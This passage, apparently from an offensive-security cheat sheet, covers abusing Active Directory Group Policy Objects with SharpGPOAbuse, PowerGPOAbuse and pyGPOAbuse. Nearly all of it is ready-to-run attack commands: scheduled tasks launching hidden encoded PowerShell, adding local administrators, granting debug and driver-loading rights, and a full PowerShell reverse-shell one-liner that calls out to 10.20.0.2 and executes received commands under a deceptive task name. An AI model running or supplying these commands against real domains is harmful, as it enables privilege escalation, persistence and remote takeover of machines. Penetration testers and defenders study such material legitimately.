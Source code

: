 ```powershell
.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
```

### Abuse GPO with PowerGPOAbuse

- https://github.com/rootSySdk/PowerGPOAbuse

```ps1
PS> . .\PowerGPOAbuse.ps1

# Adding a localadmin 
PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Assign a new right 
PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Adding a New Computer/User script 
PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'

# Create an immediate task 
PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
```

### Abuse GPO with pyGPOAbuse

```powershell
$ git clone https://github.com/Hackndo/pyGPOAbuse

# Add john user to local administrators group (Password: H4x00r123..)
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

# Reverse shell example
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```

### Abuse GPO with PowerView
